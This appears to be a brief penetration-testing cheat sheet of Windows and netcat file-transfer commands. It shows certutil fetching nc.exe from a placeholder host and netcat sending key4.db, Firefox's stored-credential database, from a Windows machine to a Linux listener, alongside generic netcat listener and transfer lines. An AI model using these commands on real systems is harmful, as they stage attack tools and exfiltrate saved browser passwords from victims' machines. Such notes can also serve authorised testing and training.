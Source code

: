 ### Download file in Windows Machine.

`certutil -urlcache -f http://<TARGET_IPADDRESS:<PORT>/nc.exe nc.exe`

### Transfer file from Windows Machine to Linux (netcat)

`nc -nv <TARGET_IPADDRESS <PORT> < key4.db (on windows machine)`

`nc -nvlp 443 > key4.db (on Linux Machine)`

### listener
`nc -nvlp <port_number>`

### Sender
`nc -w 3 [destination] 1234 < out.file`

### Receiver
`nc -l -p 1234 > out.file`
